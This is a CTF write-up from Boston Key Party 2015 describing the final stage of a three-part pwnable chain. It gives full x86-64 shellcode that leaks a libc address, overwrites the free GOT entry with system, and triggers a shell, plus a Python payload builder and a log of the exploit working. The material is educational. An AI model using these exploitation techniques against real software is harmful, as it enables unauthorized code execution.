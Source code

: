 ```yaml
---
title: '[bkpCTF-2015] braintree (tz) write-up'
author: PPP
layout: post
categories:
  - CTF
  - Write-Ups
date: 2015-03-07 13:37:02
---
```

This is a write-up for **braintree** challenge, which is the last part of 3-chained pwnable challenge from <a href="https://ctftime.org/event/163" target="_blank">Boston Key Party CTF</a> last weekend. You can read about the other parts here: <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1224" target="_blank">quincy-center</a>, <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1229" target="_blank">quincy-adams</a>. You can also read from the <a href="https://www.bpak.org/blog/2015/03/bkpctf-2015-braintree-tz-write-up/" target="_blank">origial post</a>.

The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It&#8217;s pretty bad though, sometimes the commands work, sometimes they don&#8217;t&#8230;  
> Exploit it. (tz flag) 54.165.91.92 8899

The goal is to get &#8220;tz&#8221; flag by exploiting the kernel space process.

<span style="text-decoration: underline;"><em>If you haven&#8217;t read the previous write-up for quincy-adams, I strongly recommend you to read before continuing with this one as we will assume knowledge gained from it.</em></span>

&nbsp;

As it was mentioned previously, we will be using the same primitive: **hypercall #92**.

Therefore, we have an arbitrary-write-anywhere primitive. So, the question is &#8220;what can we overwrite in **tz** that will get us an arbitrary code execution?&#8221;

We started looking at each of the hypercall handlers in **tz**.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="braintree" %}

Then, we stumbled upon hypercall #85.

This function seemed like some sort of cleanup (we called it **delete_op** in our shellcode) function for an object used in **tz**. (As I said previously, we didn&#8217;t do much of reversing on **tz** as we did for **uspace** and **kspace**)

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/tz_0.png" lightbox="braintree" %}

It seems like the first argument (v3) is a word that represents id of some sort, but the important thing is that we can control its value. v2 is an offset to the tz data structure, and the value at **tz_space + v2 (where v2 is 0)** is 0.

Since NX is enabled on **tz**, we decided to overwrite the GOT entry to execute **system**. Since the addresses are randomized, we first need to leak an address to calculate the address of system. We are going to abuse the hypercall #92 to do 3 things:

  * Leak out libc address, so we can calculate the address of system.
  * Overwrite **free** (.got.plt in tz) with &system.
  * Overwrite contents in **v4 + 8** (aka, tz_space + 8) with a pointer to our command buffer.

However, doing all of these comes with a price. The size limit (256 bytes) starts to become an issue here. We can either put another stager in the middle to allow us more space, or optimize our payload such that it fits under 256 bytes! We chose to do latter :p

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

; yay we are in kernel!!!
; optimizing for size...
mov ebp, 0x8

; leak out &getpwnam
mov eax, 0x402380       ; do_encrypt
mov edi, 0x602290       ; src (getpwnam .got.plt in tz)
mov rsi, [rel dst]      ; dst (kernel_space + 128)
mov edx, ebp            ; size
call rax

call sleep

; update the address (to be &system) and
; xor the address back with the key
mov rcx, [rel dst]
mov rax, [rcx]
xor rax, [rel xor_key]
sub rax, 0x79340        ; &getpwnam - &system (this may be different depending on libc)
xor rax, [rel xor_key]
mov [rcx], rax

; overwrite free GOT
mov eax, 0x402380       ; do_encrypt
mov rdi, [rel dst]      ; src (kernel_space + 128)
mov esi, 0x602230       ; dst (free .got.plt in tz)
mov edx, ebp            ; size
call rax

call sleep

mov rax, [rel command]  ; encrypt our command pointer
xor rax, [rel xor_key]
push rax

; overwrite [fake_obj + 8] with cmd pointer
mov eax, 0x402380       ; do_encrypt
mov rdi, rsp
mov rsi, [rel fake]
mov edx, ebp            ; size
call rax

call sleep

; setting command to 'sh'
mov rcx, [rel command]
mov dword [rcx], 0x6873

; hypercall to trigger free
; sem_lock
mov ebp, [0x60338C]     ; semaphore
mov edi, ebp
xor esi, esi
mov eax, 0x4015D0
call rax

xor rcx, rcx
mov rax, [0x603360]     ; kernel_space
mov dword [rax], 85     ; delete_op hypercall
mov [rax + 8], rcx      ; 0
lea rdx, [rax + 48]     ; rax + 48 points to args
mov [rax + 16], rdx

mov word [rax + 48], 0  ; id

; sem_unlock
mov edi, ebp
xor esi, esi
mov eax, 0x401600
call rax

call sleep

sleep:
; sleep(1)
mov eax, 0x400D00
xor edi, edi
inc edi
jmp rax

dst:
dq 0x900000080         ; scratch pad in kernel_space
fake:
dq 0x100000008         ; tz_space + 8
xor_key:
dq 0x7473656c72616863
command:
dq 0x900001000         ; we will put our command here
{% endhighlight %}
<br />

At first, we were over ~10 bytes, but once we have &#8220;optimized&#8221; a little bit, we finally got our payload to be 254 bytes!

Note that we are not using the same shell.asm as before (our new payload is now called shell.asm). However, we can continue to use the same stage1.asm and the python script from **kspace** exploit. For convenience sake, it is also attached here.

<p class="filename">pwn_tz.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ ls -l shell.bin 
-rw-rw-r-- 1 user user 254 Mar 4 21:58 shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_tz.py
$ (cat ../tz/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
tz
{% endhighlight %}
<br />

We have abused the hypercall #92 (encrypt) to exploit both kspace and tz, but there may be another way to exploit kspace without going through the hypervisor.

Well, that&#8217;s it for the 3-parts pwnable challenge write-up =)

Thank you for reading, and happy hacking!

&nbsp;

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]